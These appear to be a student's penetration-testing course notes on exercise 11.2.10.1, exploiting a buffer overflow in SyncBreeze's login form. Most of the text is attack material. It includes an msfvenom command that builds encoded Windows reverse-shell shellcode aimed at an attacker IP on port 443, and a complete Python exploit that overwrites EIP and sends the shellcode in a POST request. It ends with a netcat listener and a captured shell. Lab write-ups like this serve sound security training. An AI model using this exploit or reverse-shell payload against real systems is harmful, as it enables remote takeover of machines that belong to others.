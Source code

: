 11.2.10.1

# 11.2.10.1
## 11.2.10.1.1. Update the exploit so that SyncBreeze still runs after exploitation.

Change the shellcode to use the ExitThread
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
![6074af374e100285ed4356235bafc7eb.png](../../../_resources/aabdd270268942d0932d24206a08128a.png)

Here is the code
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 10_exitThread.py 
#!/usr/bin/python
import socket
import sys

shellcode = ("\xd9\xc4\xd9\x74\x24\xf4\x5f\x31\xc9\xbd\x5f\x4c\xbf\xdf\xb1"
"\x52\x31\x6f\x17\x83\xef\xfc\x03\x30\x5f\x5d\x2a\x32\xb7\x23"
"\xd5\xca\x48\x44\x5f\x2f\x79\x44\x3b\x24\x2a\x74\x4f\x68\xc7"
"\xff\x1d\x98\x5c\x8d\x89\xaf\xd5\x38\xec\x9e\xe6\x11\xcc\x81"
"\x64\x68\x01\x61\x54\xa3\x54\x60\x91\xde\x95\x30\x4a\x94\x08"
"\xa4\xff\xe0\x90\x4f\xb3\xe5\x90\xac\x04\x07\xb0\x63\x1e\x5e"
"\x12\x82\xf3\xea\x1b\x9c\x10\xd6\xd2\x17\xe2\xac\xe4\xf1\x3a"
"\x4c\x4a\x3c\xf3\xbf\x92\x79\x34\x20\xe1\x73\x46\xdd\xf2\x40"
"\x34\x39\x76\x52\x9e\xca\x20\xbe\x1e\x1e\xb6\x35\x2c\xeb\xbc"
"\x11\x31\xea\x11\x2a\x4d\x67\x94\xfc\xc7\x33\xb3\xd8\x8c\xe0"
"\xda\x79\x69\x46\xe2\x99\xd2\x37\x46\xd2\xff\x2c\xfb\xb9\x97"
"\x81\x36\x41\x68\x8e\x41\x32\x5a\x11\xfa\xdc\xd6\xda\x24\x1b"
"\x18\xf1\x91\xb3\xe7\xfa\xe1\x9a\x23\xae\xb1\xb4\x82\xcf\x59"
"\x44\x2a\x1a\xcd\x14\x84\xf5\xae\xc4\x64\xa6\x46\x0e\x6b\x99"
"\x77\x31\xa1\xb2\x12\xc8\x22\x7d\x4a\xa5\x64\x15\x89\x49\x88"
"\x5d\x04\xaf\xe0\xb1\x41\x78\x9d\x28\xc8\xf2\x3c\xb4\xc6\x7f"
"\x7e\x3e\xe5\x80\x31\xb7\x80\x92\xa6\x37\xdf\xc8\x61\x47\xf5"
"\x64\xed\xda\x92\x74\x78\xc7\x0c\x23\x2d\x39\x45\xa1\xc3\x60"
"\xff\xd7\x19\xf4\x38\x53\xc6\xc5\xc7\x5a\x8b\x72\xec\x4c\x55"
"\x7a\xa8\x38\x09\x2d\x66\x96\xef\x87\xc8\x40\xa6\x74\x83\x04"
"\x3f\xb7\x14\x52\x40\x92\xe2\xba\xf1\x4b\xb3\xc5\x3e\x1c\x33"
"\xbe\x22\xbc\xbc\x15\xe7\xdc\x5e\xbf\x12\x75\xc7\x2a\x9f\x18"
"\xf8\x81\xdc\x24\x7b\x23\x9d\xd2\x63\x46\x98\x9f\x23\xbb\xd0"
"\xb0\xc1\xbb\x47\xb0\xc3")

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10
    
    inputBuffer = filler + eip + offset + nops + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

Start a netcat listener
`sudo nc -lvnp 443`
![ee4eac4230f2a3c994410d92e30271e3.png](../../../_resources/b86971c01afb42a8a9cea88dd53c7a4b.png)

We have a shell
![efe9f3fdd432a03d668b26bb0fbde885.png](../../../_resources/f0674a65e8f947d38a7a780318e4fd45.png)